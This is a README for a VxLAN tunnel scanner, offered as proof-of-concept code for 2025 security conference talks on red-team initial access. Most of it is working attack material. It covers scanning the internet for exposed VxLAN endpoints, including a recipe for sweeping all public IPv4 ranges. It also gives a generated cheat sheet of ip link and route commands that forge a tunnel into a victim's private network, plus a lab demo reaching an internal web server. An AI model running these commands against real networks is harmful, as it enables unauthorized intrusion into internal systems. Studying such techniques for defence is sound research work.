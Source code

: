 # VxLAN Tunnel Scanner
- A scanner that searches for misconfigured VxLAN tunnels around the world and can potentially hijack entire tunnel access to internal networks.
## Reference
- This is a PoC code for Talks: From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion
    - [Black Hat USA 2025 Briefing](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678)
    - [DEF CON 33 Main Stage](https://defcon.org/html/defcon-33/dc-33-speakers.html#content_60316)
    - [HITCON 2025](https://hitcon.org/2025/en-US/agenda/)
## Prepare
- `pip3 install requirement.txt`
## Usage
```
python3 main.py -i <interface> -l <your_public_IP> -d <VxLAN_dst_ip_subnet or ip_list_file>
```
## Example
- for example `1.1.1.1` has VxLAN tunnel you are `3.3.3.3`, and VNI might be 1 to 100
```
python3 main.py -i eth0 -l 3.3.3.3 -d 1.1.1.1 -vni 1:100 -p 4789,8472
CRITICAL - Received reply from Source IP: 1.1.1.1, VNI: 42, VXLAN Port: 8472, VXLAN Source Mac: ee:bb:cc:aa:55:11, VXLAN Source IP: 10.0.0.1
```
- And get how to abuse VxLAN tunnel
```
python3 main.py -l 3.3.3.3 -d 1.1.1.1 -vni 42 -p 8472 -sch -tip 10.0.0.2/24 -tvip 10.0.0.1
########################## output ##########################
#### Create Fake Tunnel ####
IFACE=vxlan-test
MYPUBIP=3.3.3.3
DSTADDR=1.1.1.1
TIP=10.0.0.2/24
TVIP=10.0.0.1
DPORT=8472
VID=42
ip link add $IFACE type vxlan id $VID remote $DSTADDR local $MYPUBIP dstport $DPORT 
ip link set up dev $IFACE
ip addr add $TIP dev $IFACE
## route possible private ip ##
ip r add 10.0.0.0/8 via $TVIP dev $IFACE src $MYPUBIP
ip r add 172.16.0.0/12 via $TVIP dev $IFACE src $MYPUBIP
ip r add 192.168.0.0/16 via $TVIP dev $IFACE src $MYPUBIP

### start scan intranet ###
#### !IMPORTANT! ####
# !! nmap is not available for this kind of attack use fping instead !! #
# fping -g 192.168.0.0/16 2>/dev/null

#### cleanup ####
ip link del $IFACE
```
- default setting about 500 package/sec.

## options
- `-sch`: Show Cheetsheet and exit (Input -i -l -d which you found then get abuse VxLAN tunnel command)
- `-l3`: Layer 3 tunnel interface (Default: False)
- `-vni`: Scan VXLAN VNI range in the form of '1:10', '1', or '1,4' (default 1:200)
- `-p` Scan VXLAN VNI range in the form of '1:10', '1', or '1,4' (default 1:200)
- `-ss`: Save and use status file (the last scan will resume) (Default: False)
  - Recommend "on" in mass scan system sometime kill the script
- `-i <interface>`: Interface to send package
- `-d <ip_or_file>`: A IP subnet or a list of IPs(subnets) to use as VxLAN dst
- `-l <ip>`: A IP on your pubilc interface (the IP on -i interface)
- `-o <file>`: Log file path
- `-t <float>`: Wait how many second after VxLAN packet send (Default: 2)
- `-T <int>`: How many thread send VxLAN packet in same time (Default: 255)
- `-cs <int>`: Send how many ip until start wait for ping to responsed (default: 1000)
- `-dp`: Do private - scan private ip VxLAN (Default: False)
  - Use this if you know the inside intranet address
- `-v <log_level>`: Logging level `['DEBUG', 'INFO', 'WARNING', 'ERROR', 'CRITICAL']` (Default: INFO)
  - VxLAN peer found log is on `CRITICAL`
- `-tip` : tunnel address **inference** from scan result, **contains subnets** (for cheet sheet only)
- `-tvip` : Victim tunnel address from scan result (for cheet sheet only)


## better way to scan full public ip
```
wget https://bgp.tools/table.txt
cat table.txt |grep -v "::"|cut -d " " -f 1 > v4table.txt
pip3 install aggregate6
aggregate6 v4table.txt > aggrv4table.txt
#cat aggrv4table.txt|wc -l   #159652
python3 main.py -i <interface> -l <your_public_IP> -d aggrv4table.txt -ss
```

## Lab
## Demo video
- [YouTube](https://youtu.be/qNneO487yks)

### Scan VxLAN tunnel
```
python3 main.py -i <iface> -l <your_ip> -d 160.25.104.200
CRITICAL - Received reply from Source IP: 160.25.104.200, VNI: 42, VXLAN Port:8472, VXLAN Source Mac: fa:10:04:a1:e1:cf, VXLAN Source IP: 10.0.0.1
```
### Access & Scan intranet
```
python3 main.py -l 9.9.9.9 -d 160.25.104.200 -vni 42 -p 8472 -sch -tip 10.0.0.2/24 -tvip 10.0.0.1
#### Create Fake Tunnel ####
MYPUBIP=9.9.9.9  #change this
DSTADDR=160.25.104.200
DPORT=8472
VID=42
IF_NAME=vxlan-test
ip link add $IF_NAME type vxlan id $VID remote $DSTADDR local $MYPUBIP dstport $DPORT 
ip link set up dev $IF_NAME
ip addr add 10.0.0.2/24 dev $IF_NAME
### You need to ping to the same subnet to trigger an ARP request, which lets the server know you are here ###
ping -c 1 10.0.0.1
ip r add 192.168.122.0/24 via 10.0.0.1

### start scan intranet ###
# nmap 192.168.122.0/24
ping -c 1 192.168.122.20

## test curl to web ##
curl 192.168.122.20
# YOU KNOW VxLAN!

#### cleanup ####
ip link del $IF_NAME
```

## Disclaimer
This project is intended for educational and research purposes only. Any actions and/or activities related to this code are solely your responsibility. The authors and contributors are not responsible for any misuse or damage caused by this project. Please ensure that you have proper authorization before testing, using, or deploying any part of this code in any environment. Unauthorized use of this code may violate local, state, and federal laws.

## License
This project is licensed under the terms of the MIT license.

